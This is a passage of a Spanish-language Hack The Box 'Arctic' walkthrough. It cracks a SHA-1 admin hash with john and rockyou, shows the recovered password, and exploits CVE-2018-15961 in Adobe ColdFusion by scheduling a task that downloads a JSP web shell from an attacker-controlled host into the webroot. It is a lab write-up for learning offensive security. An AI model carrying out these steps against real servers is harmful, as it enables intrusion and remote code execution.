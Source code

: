 Observamos que se trata de *SHA-1*, ahora podemos crackear el hash para obtener la contraseña en texto claro; podríamos realizarlo mediante diversas formas, en este caso lo haremos a través de `john` y mediante el sitio web [Crackstation](https://crackstation.net/).

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 SSE2 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)
1g 0:00:00:00 DONE (2021-09-07 21:53) 14.28g/s 73085p/s 73085c/s 73085C/s jodie..gabita
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

![](/assets/images/htb-arctic/arctic_crack.png)

Ahora ingresamos al panel de administración de *Adobe Coldfusion* con el password identificado. Investigando un poco, podemos encontrar que existe una vulnerabilidad de dicha tecnología asociada al CVE *[CVE-2018-15961](https://www.cvedetails.com/cve/CVE-2018-15961/ "CVE-2018-15961 security vulnerability details")* que podemos explotar subiendo un archivo en **java** en la sección de *DEBUGGING & LOGGING → Scheduled Tasks* y llenamos los siguientes campos:

- Task Name: k4mishell
- URL: http://̣̣<ip_atacante>/k4mishell.jsp (también podría ser un archivo de extensión *cfm*)
- Publish: check
- File: C:\coldfusion8\wwwroot\CFIDE\k4mishell.jsp (Se intuye que la aplicación se encuentra montada en la ruta *C:\coldfusion8\wwwroot\\*, por lo que incluimos el directorio *CFIDE* y el nombre de nuestro archivo)
